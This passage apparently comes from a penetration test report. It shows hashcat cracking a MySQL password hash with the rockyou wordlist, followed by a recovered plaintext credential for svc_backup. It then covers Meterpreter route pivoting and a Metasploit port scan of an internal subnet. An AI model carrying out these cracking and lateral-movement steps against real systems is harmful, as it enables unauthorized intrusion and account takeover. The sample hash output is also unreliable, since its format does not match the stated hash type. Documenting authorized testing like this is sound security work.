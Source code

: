 
### 3.5 Password Hash Cracking

**Hash Format:** MySQL323 (hash type 300)

**Command Executed:**
```bash
hashcat -m 300 mysql_hashes.txt /usr/share/wordlists/rockyou.txt
```

**Cracking Results:**
```
*A7D9E8F3C5B2D8E7F6A9B8C7D6E5F4A3B2C1:SecureP@ss2024
```

**Recovered Credentials:**
```
Username: svc_backup
Password: SecureP@ss2024
```

---

## 4. Lateral Movement

### 4.1 Internal Network Discovery

**Routing Configuration:**
```bash
# In Meterpreter session
run autoroute -s 172.16.50.0/24
```

**Route Verification:**
```bash
route print
```

**Result:**
```
IPv4 Active Routing Table
=========================
Subnet           Netmask          Gateway
------           -------          -------
172.16.50.0      255.255.255.0    Session 1
10.50.100.0      255.255.255.0    Session 1
```

---

### 4.2 Internal Network Scanning

**Metasploit Port Scan:**
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.16.50.0/24
set PORTS 22,80,443,3306
set THREADS 10
run
```
